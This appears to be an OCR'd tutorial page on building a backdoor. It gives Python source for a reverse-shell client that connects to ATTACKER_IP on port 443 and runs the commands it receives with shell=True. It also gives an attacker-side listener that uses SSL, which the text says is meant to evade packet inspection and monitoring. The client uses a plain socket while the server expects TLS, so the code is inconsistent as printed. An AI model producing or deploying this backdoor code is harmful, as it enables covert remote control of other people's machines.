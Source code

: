 #### **Client-Side Implementation (Infected System)**
The client script connects to the attacker's server, receives commands, and executes them via `subprocess`. Key components include:
- **Socket Connection**: Establishes a TCP connection to the attacker's IP and port.
- **Command Execution**: Uses `subprocess.check_output()` to execute commands and capture output.
- **Error Handling**: Catches exceptions (e.g., invalid commands) to avoid crashes.

```python
import socket, subprocess, os

def reverse_shell():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("ATTACKER_IP", 443))  # Use HTTPS port for stealth
    while True:
        command = s.recv(1024).decode()
        if command.lower() == "exit":
            break
        try:
            output = subprocess.check_output(command, shell=True, stderr=subprocess.STDOUT, timeout=5)
        except Exception as e:
            output = str(e).encode()
        s.send(output)
    s.close()
```

#### **Server-Side Implementation (Attacker)**
The server listens for incoming connections, sends commands, and receives outputs. It uses `ssl` to secure the communication.

```python
import socket, ssl

def handle_client():
    context = ssl.create_default_context(ssl.Purpose.CLIENT_AUTH)
    context.load_cert_chain(certfile="server.crt", keyfile="server.key")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(("0.0.0.0", 443))
    s.listen(1)
    conn, addr = s.accept()
    ssl_conn = context.wrap_socket(conn, server_side=True)
    while True:
        cmd = input("Enter command: ")
        ssl_conn.send(cmd.encode())
        response = ssl_conn.recv(4096)
        print(response.decode())
    ssl_conn.close()
```

---

### **2. Secure Communication with SSL/TLS**
To evade packet inspection and network monitoring, the backdoor employs SSL/TLS encryption. This ensures that all data exchanged between the client and server is encrypted, making it indistinguishable from legitimate HTTPS traffic.
